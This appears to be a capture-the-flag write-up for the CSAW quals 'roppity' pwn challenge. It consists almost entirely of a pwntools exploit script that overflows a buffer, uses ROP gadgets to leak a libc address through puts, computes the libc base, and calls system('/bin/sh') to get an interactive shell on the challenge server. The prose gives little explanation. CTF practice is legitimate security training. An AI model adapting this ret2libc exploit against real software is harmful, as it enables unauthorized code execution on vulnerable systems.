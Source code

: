 ## CSAW quals: roppity [pwn]
#### I was not the one who solved this for the team during the competition, but I still tried to solve it on my own anyways. Simple buffer overflow - ret2libc challenge. Exploit script now, full writeup later
```python
#: CSAW quals - roppity [50]

from pwn import *

#: Connect to challenge server
#p = process(['setarch', 'x86_64', '-R', './rop'])
p = remote('pwn.chal.csaw.io', 5016)
binary = ELF('./rop')
libc = ELF('libc-2.27.so')

print(p.recv())

#: ROP gadgets
ret = 0x000000000040048e
pop_rdi_ret = 0x0000000000400683

#: Stage1
system = 0x7ffff7a334e0
bin_sh = 0x7ffff7b980fa

exploit = ''
exploit += cyclic(40)
exploit += p64(ret)
exploit += p64(pop_rdi_ret)
exploit += p64(binary.got['puts'])
exploit += p64(binary.symbols['puts'])
exploit += p64(binary.symbols['main'])

p.sendline(exploit)

#: Stage 2
leak = int(hex(u64(p.recv()[:7].ljust(8,'\x00')))[3:], 16)
libc_base = leak - libc.symbols['puts']	
print('LIBC base: {}'.format(hex(libc_base)))
exploit = ''
exploit += cyclic(40)
exploit += p64(pop_rdi_ret)
exploit += p64(libc_base + 0x1b40fa)
exploit += p64(libc_base + 0x04f4e0)
p.sendline(exploit)
p.interactive()
```
